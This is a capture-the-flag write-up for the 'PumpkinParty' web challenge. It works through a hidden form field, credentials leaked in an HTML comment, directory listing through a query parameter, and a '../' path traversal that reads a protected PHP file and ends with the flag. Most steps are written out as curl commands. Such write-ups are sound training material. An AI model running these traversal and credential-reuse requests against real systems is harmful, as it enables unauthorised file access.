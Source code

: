 ## PumpkinParty
After we launched the container, we got an ip for the host. Let's call it `$HOSTIP`.

With `nmap $HOSTIP` we find out the host only listens on port 80.

Open that IP in a Web browser. It presents a page with a link at the bottom.
The link leads to a page for buying tickets, `/tickets.php`. It contains a form
with form fields for the number of tickets for each ticket type, e.g.
`normal_count` or `vip_count`.

The page's source code contains a comment which says that there's a fourth
ticket type 'merchant' which is not implemented yet. Since this type is not
included in the form we need to use `curl` to send a request with this ticket
type.

We used this command to submit the form with one merchant ticket:

    curl -i -H 'application/x-www-form-urlencoded' -F 'merchant_count=1' http://$HOSTIP/tickets.php?action=submit

The response is HTTP 302 that redirects to `?action=confirm` and has a
`Set-Cookie` header with the key `PHPSESSID`. We save it for later use.

    PHPSESSID=b3ec83b80e0774419f9269dce56b45ce

Following 'confirm' with

    curl -iv -b PHPSESSID=b3ec83b80e0774419f9269dce56b45ce -v http://$HOSTIP/tickets.php?action=confirm

returns a page with a table where the order is summarized. There's a button that sends a request to `?action=buy`.

Let's send a request:


    curl -iv -b PHPSESSID=b3ec83b80e0774419f9269dce56b45ce -v http://$HOSTIP/tickets.php?action=buy

We get a page with an HTML comment saying:

    <!-- @WEBDEVS user/pass merch_test2/BUYMYSHORTS !!!REMOVE IN PROD!!! -->

The question is: Where is this merchant page?

We guess and send

    curl -u merch_test2:BUYMYSHORTS -vi http://$HOSTIP/merchants/

The returned page contains JavaScript that iterates over the response of
`/merchants/processor.php?a=registered` to display merchant information.
For each value that is returned at this path another GET request to
`/merchants/processor.php?b=<MERCHANT>` is sent to get information about each
merchant.

    curl -u merch_test2:BUYMYSHORTS http://$HOSTIP/merchants/processor.php?a=registered

    ["Bobs Bar","Himalaya Hats","Ingrids Imbiss"]

What happens if we replace the value `registered` with something else, say, a dot?

    curl -u merch_test2:BUYMYSHORTS http://$HOSTIP/merchants/processor.php?a=.

It yields a list of filenames:

    [".htaccess",".htpasswd","327a6c4304ad5938eaf0efb6cc3e53dc.php","index.php","processor.php","registered"]

Apparently, `registered` is a directory and there's a suspicious file
`327a6c4304ad5938eaf0efb6cc3e53dc.php`, which is in the same directory as
`processor.php`.

However, accessing `/merchants/327a6c4304ad5938eaf0efb6cc3e53dc.php` returns a HTTP 403 (forbidden).

We need to look into this file.

Since the JavaScript code sends requests to
`/merchants/processor.php?b=<MERCHANT>` and the value of this parameter seems
to be file, we could get the suspicious file this way.

`processor.php` outputs files given in parameter `b` which are in the directory
`registered`. Since `327a6c4304ad5938eaf0efb6cc3e53dc.php` is in a directory above `registered` we need to send

    curl -u merch_test2:BUYMYSHORTS -vi http://10.10.1.3/merchants/processor.php?b=../327a6c4304ad5938eaf0efb6cc3e53dc.php

The PHP file asks for a GET parameter `admin` that must have the value `sure`. So let's do the request

    curl -u merch_test2:BUYMYSHORTS -vi http://10.10.1.3/merchants/327a6c4304ad5938eaf0efb6cc3e53dc.php?admin=sure

The returned HTML page contains the flag: `DORF18{Y0UR_5H3LL_15_1N_4N0TH3R_C45TL3}`.
